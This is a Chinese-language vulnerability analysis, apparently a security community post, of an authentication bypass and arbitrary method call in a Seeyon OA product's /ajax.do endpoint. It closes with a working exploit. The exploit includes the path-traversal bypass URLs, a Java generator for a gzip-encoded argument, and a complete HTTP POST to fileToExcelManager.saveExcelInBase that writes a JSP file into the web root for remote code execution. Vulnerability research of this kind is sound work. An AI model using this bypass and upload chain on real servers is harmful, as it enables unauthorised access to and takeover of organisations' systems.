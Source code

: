 

# 某 OA ajax.do 处漏洞分析 - 先知社区

某 OA ajax.do 处漏洞分析



# ajax.do 处漏洞分析

本次分析版本 v7.1sp1  
/ajax.do 可以调用其他类的方法，但 ajax.do 默认是不允许未授权访问的  
[![](assets/1701606576-c083d8d493a69cfd53fbd5c01d47be13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091052-510ddf10-85af-1.png)  
登录后访问是这样子的  
[![](assets/1701606576-2d6d44951ba46dbc1df1c7352c9517be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091104-58422516-85af-1.png)

## 权限绕过

观察 web.xml 发现.do 结尾的路由会经过 SecurityFilter  
[![](assets/1701606576-2000c32f6838f5e39aeef55f6ccf3f21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091126-6561e24a-85af-1.png)  
CTPSecurityFilter 类中做了校验，首先调用 isSpringController 进行校验  
[![](assets/1701606576-1b08eb07f4389200c124549950e805cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091136-6bb93152-85af-1.png)  
isSpringController 只要是.do 结尾的或者包含.do;jsessionid 都会返回 true  
[![](assets/1701606576-7fd9607d70b4ced9e7cc99c6b5d573b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091149-73347266-85af-1.png)  
然后调用 SpringControllerAuthenticator#authenticate  
[![](assets/1701606576-a94b49cf00f343dbe159c177c411617f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091157-782280ba-85af-1.png)  
authenticate 方法中判断是否登录，未登录调用 this.isNeedlessCheckLogin  
[![](assets/1701606576-c3efa91f324b6499721b9fbf5172deef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091207-7e3f3f92-85af-1.png)  
isNeedlessCheckLogin 中，如果路由是/ajax.do，会将 accessUrl 设置为 managerName 参数的值，这里没有传入，就是 null  
[![](assets/1701606576-5a4b838cba7aa790b33d926f9f21642c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091215-8296c196-85af-1.png)  
然后获取 needlessUrlMap  
[![](assets/1701606576-b8b1c6b9ac15943fb059c3737b236d6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091225-88f1ff06-85af-1.png)  
遍历判断 accessUrl 是否在这个 map 中  
[![](assets/1701606576-4bd00fb13bb3c185c07b8de24d99e33c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091309-a2d74d04-85af-1.png)  
accessUrl 为 null 的时候直接抛出异常了，传个 managerName 进行测试  
[![](assets/1701606576-ce0616238a1e066058a42af22ba79cd7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091318-a864948e-85af-1.png)  
isNeedlessCheckLogin 返回 false 后赋值给 isAnnotationNeedlessLogin，会调用到 this.checkOnlineState  
[![](assets/1701606576-bdca8db502cac180457e2e74ad753a68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091327-ade03468-85af-1.png)  
因为没有登录，所以 checkOnlineState 也会返回 false  
[![](assets/1701606576-92b4035bb327933fb9252595b8599f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091335-b2a028b4-85af-1.png)  
最后造成SpringControllerAuthenticator#authenticate返回false赋值给accept  
[![](assets/1701606576-40d2f667b8d95c8178a9085270e2d889.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091343-b729539c-85af-1.png)  
当 accept 为 false 时，将不会进行 filter 链的调用  
[![](assets/1701606576-074dc8bbe328122cae05a52d49fa02bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091350-bb3121b8-85af-1.png)  
思考：在 isNeedlessCheckLogin 方法中，因为 accessUrl 不在 needlessUrlMap 中，导致返回 false，那么使 accessUrl 为 needlessUrlMap 中存在的 key，是否就会返回 true，例如：/main.do  
[![](assets/1701606576-82db502f3c546f048ad7747a65b82011.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091407-c5c3cd24-85af-1.png)  
那么 ajax.do 不在 needlessUrlMap 中，如何能够访问到 ajax.do 呢，可以利用 spring 的一个小 trick，在低版本 spring 中 alwaysUseFullPath 为默认值 false，本次分析版本中刚好 alwaysUseFullPath 也为 false  
[![](assets/1701606576-34d094e40f8bf30e97f948ccaa80cb18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091414-c99bf25a-85af-1.png)  
当 alwaysUseFullPath 为 false 时，会调用 getPathWithinServletMapping 对 url 进行处理  
[![](assets/1701606576-b74ec542ec97f2ec481095980d5d347f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091420-cd09a978-85af-1.png)  
而 getPathWithinServletMapping 会对 uri 进行标准化处理，例如解码然后处理跨目录等，这就导致了可能的身份验证绕过  
成功绕过  
[![](assets/1701606576-d4176b06cccd69e486be5c2967f2562d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091431-d3beaab6-85af-1.png)

## ajax.do 调用流程

接下来分析 ajax.do 是如何调用类的  
/ajax.do 对应的是 com.seeyon.ctp.common.service.AjaxController 类  
[![](assets/1701606576-e35841d73b9d6313332bb2b5bf83ef4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091451-dfb67d44-85af-1.png)  
调用其他类的逻辑主要在 ajaxAction 方法中  
[![](assets/1701606576-f4b8aef2083fa211b64ff33d906c5f13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091456-e2dc9df0-85af-1.png)  
返回的字符是 outStr，outStr 调用了 invokeService 方法进行处理，接着如果传入了 ClientRequestPath 参数且不为黑名单的，会调用 ZipUtil.compressResponse 进行解压缩  
[![](assets/1701606576-6dc76b984f901ec7514694122f54ec19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091502-e68849ea-85af-1.png)  
跟进 invokeService 方法，首先分别获取 serviceName、methodName、strArgs、compressType，然后根据传入的 compressType，调用 ZipUtil.uncompressRequest 对 strArgs 进行处理  
[![](assets/1701606576-5fa3e3b08a59ae51a8b67a6a3e05d8a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091507-e9645884-85af-1.png)  
跟进 uncompressRequest，可以看到，如果 compressType 是 gzip 的话会进行 gzip 解压缩，如果不是的话，就会返回原本的数据  
[![](assets/1701606576-12de9275470d59d7792eb04e6570dba3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091514-eda6a226-85af-1.png)  
回到 invokeService 方法，根据传入的 serviceName 调用 getService 方法，然后返回一个对象  
[![](assets/1701606576-ccd15258f447e14cc8ff60af9bdd31b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091520-f119c8c0-85af-1.png)  
跟进 getService 方法，调用了 AppContext.getBean 方法来获取对象  
[![](assets/1701606576-e25c5809b63443a71e7103b1e5f1a9cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091525-f3c9c05c-85af-1.png)  
跟进 getBean 方法，从 beanCacheMap 中获取缓存好的对象  
[![](assets/1701606576-de7305189df2a647da766a48e5444581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091530-f6ffea94-85af-1.png)  
beanCacheMap 中存放了 Manager 的名字和对应的对象  
[![](assets/1701606576-7cccaaefd76a51394fe79b3ea3aaa7dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091535-fa0c8c42-85af-1.png)  
回到 getService 方法，获取到对象后，还会判断其是否继承 DataSource、Session、SessionFactory 三个类，并且不为空，满足条件后 return  
[![](assets/1701606576-83d328b093ac92a3f2e005eaaf9a1b75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091542-fe23b198-85af-1.png)  
返回 invokeService 方法，获取到对象后，会调用 invokeMethod 方法，传入获取到的对象、方法名、参数、类名  
[![](assets/1701606576-40d1983d20214be59b47979c93ab6a38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091547-01412f90-85b0-1.png)  
跟进 invokeMethod 方法，先将传入的 strArgs 参数解析成了 Object 对象，接着判断这个对象是否为 List 子类的实例，是的话会将 Object 强制转换成 List 对象，否则就会创建一个 ArrayList 对象。然后将传入的 Object 添加到 ArrayList 中  
[![](assets/1701606576-293dce136180c6309c5b5f11d8d8eac1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091553-04923306-85b0-1.png)  
经接着会将 serviceName + "_" + methodName + "_" + argsNum 作为键值在 this.candidateMethodCache 中获取已经缓存的方法，返回一个 list，如果获取到则会将传入的 strArgs 和 list 作为参数调用 this.findMethodAndArgs((List)l, (List)list)  
[![](assets/1701606576-630585b6e98248539f8c3d98f815bd62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091558-079e2488-85b0-1.png)  
没获取到的话，会调用 this.judgeCandidate  
[![](assets/1701606576-6a6e0fecaf87970506fa3a9f6b0d47c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091603-0aad6a1c-85b0-1.png)  
judgeCandidate 方法中会反射获取 services 的所有方法，有符合的方法名和符合的所需参数个数的话，就会将这个方法加入到 list 中，返回 list  
[![](assets/1701606576-e28736d4b6531f57912f81a90d83da97.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091608-0de7a13e-85b0-1.png)  
将返回的 list 作为参数，调用 findMethodAndArgs 方法  
[![](assets/1701606576-7576ba234b42fa7f31dd112a9046db06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091617-12c95d3c-85b0-1.png)  
findMethodAndArgs 方法中，返回具体的 Method 对象和参数  
[![](assets/1701606576-b26be1ecd610503ebef2097c21cbdd55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091626-1867a6e0-85b0-1.png)  
将键值加入缓存  
[![](assets/1701606576-1c7554b4e8f239b7d38cc46ddbb949ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091632-1bd67680-85b0-1.png)  
反射调用对应的方法  
[![](assets/1701606576-3d6cce95e2613283194fbc17cedc4e87.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091638-1f87ca68-85b0-1.png)  
总结：beanCacheMap 中存放了 Manager 的名字和对应的对象，可以通过传参调用对象的任意方法

## 修改权限绕过

当利用权限绕过的方式尝试调用对应的 Manager 时，会发现绕不过去了

```bash
/main.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1701606576-05649b2eb41223e115f40dbcb5ddc46b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091730-3eafb694-85b0-1.png)  
进行调试分析，发现是因为传入了 method 参数后，method 为 ajaxAction  
[![](assets/1701606576-1cc117bd80a70bc860dea5c57d3e9dc4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091739-4402e40e-85b0-1.png)  
这里返回了 false  
[![](assets/1701606576-b22c37c5906b181b18e7ac13bc3e3780.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091745-474b5d76-85b0-1.png)  
key 为/main.do 时返回的方法中没有 ajaxAction，导致没有匹配成功返回 false，/main.do/../ajax.do 因为没传 method 参数，method 为 index，而 main.do 时返回的方法中含有 index，所以可以绕过  
[![](assets/1701606576-85098cf3845982719f9ef79ead86ecf5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091751-4b0b5060-85b0-1.png)  
继续观察发现 methods.contains("_") || methods.contains(method)，只要 2 个条件成立一个就行了，methods.contains("_") 就是表示 needlessUrlMap.get(key) 返回的 methods 中包含\*就行了  
而 autoinstall.do 刚好满足这个条件  
[![](assets/1701606576-128ddcf8bd92a99a811a03d5307d7924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091802-51a03b84-85b0-1.png)  
所以可以利用 autoinstall.do 来进行权限绕过，利用 ajax.do 调用相应的 Manager

```bash
/autoinstall.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1701606576-fd84672040dceb8f76a15e07c92265d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091820-5c85661e-85b0-1.png)

## 漏洞利用

有很多 Manager 都存在漏洞，这里简单提一个 fileToExcelManager，其 saveExcelInBase 方法存在文件上传问题，从而造成 rce  
接受 3 个参数  
[![](assets/1701606576-75a46c3ad94cb65aa18a06b91b0220b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091839-67e20e86-85b0-1.png)  
保存文件，并没有对文件名进行校验  
[![](assets/1701606576-88b6b71702a44dc476124571666b0b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091848-6cdb6b4e-85b0-1.png)  
需要注意的是这里写入的文件，会在前后加入 2 个双引号，直接插入 shell 是不行的，解析不了，我们可以利用换行符和双引号来闭合前后的双引号，从而使中间的 shell 内容能够解析  
构造 payload

```bash
import com.seeyon.ctp.common.excel.DataRecord;
import com.seeyon.ctp.common.log.CtpLogFactory;
import com.seeyon.ctp.util.ZipUtil;
import com.seeyon.ctp.util.json.JSONUtil;
import org.apache.commons.logging.Log;

import java.net.URLEncoder;
import java.util.ArrayList;

public class fileToExcelManagerPayload {
    private static final Log LOGGER = CtpLogFactory.getLog(fileToExcelManagerPayload.class);
    public static void main(String[] args) {

        DataRecord d = new DataRecord();
        String[] c = {"\"\r\n"+"<% out.println(\"ttttttttt\"); %>"+"\"\r\n"};
        d.setColumnName(c);
        String dd = JSONUtil.toJSONString(d);
        final ArrayList<Object> list = new ArrayList<>();
        list.add("../webapps/ROOT/x.jsp");
        list.add("\"\"");
        list.add(d);
        final String list1 = JSONUtil.toJSONString(list);
        String strArgs = ZipUtil.compressResponse(list1, "gzip", "UTF-8", LOGGER);
        System.out.println(URLEncoder.encode(strArgs));
        System.out.println("end");

    }
}
```

[![](assets/1701606576-2a957be7681324e103953a52f81cee4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091916-7d76753e-85b0-1.png)

```bash
POST /seeyon/autoinstall.do/../ajax.do?method=ajaxAction&managerName=fileToExcelManager HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 6357

managerMethod=saveExcelInBase&managerName=fileToExcelManager&method=ajaxAction&requestCompress=gzip&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00%5D%C2%8D%C3%81%0A%C3%820%10D%7F%C2%A5%2C%14%14B%C3%A2%C2%B9%C2%8A%C3%A7%1E%C3%84%C2%82%14%3C4%3D%C2%A46%C3%98H%C2%9A%C2%84dC%05%C3%B1%C3%9FM%09zp%C3%B64%C2%8F%C3%A5M%07%C2%94%C2%B2E%0E%C3%82%C2%B9%C3%80.M%C3%93%C2%B2%27%7D%04%07%04x%3A+%2F%C2%B8Y%1Dgs%16%C2%B3%C2%84%C2%AA%5B%C2%A9%C3%A7%C3%A6P%166%22u%5E%19%C3%94f%C3%83%01%C2%BF%C3%A1%C2%B0%C3%9D%17%C3%A51%C2%BFAO%60%14%28j%29%C3%86%C2%93%0A%C2%98%04%C2%89d%C3%A1U%C3%A1%04%C2%95%C2%89Z%13%08%C2%93%C2%94%C2%98%172%40%C2%85%C3%BAWB%1C%C3%9A%C2%BF%5EKu%C2%9F%C2%92nG%C3%80%C3%9Be%C3%95%C2%BE%C3%BB%0F%C3%8BJZ%C2%B7%C3%8A%00%00%00
```

[![](assets/1701606576-876d92b016cd1daa47ad75acc7a59605.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091942-8d7f8d3a-85b0-1.png)  
[![](assets/1701606576-d7c3c11f952e3fc8b7b24af3e0852f54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091947-9006927e-85b0-1.png)
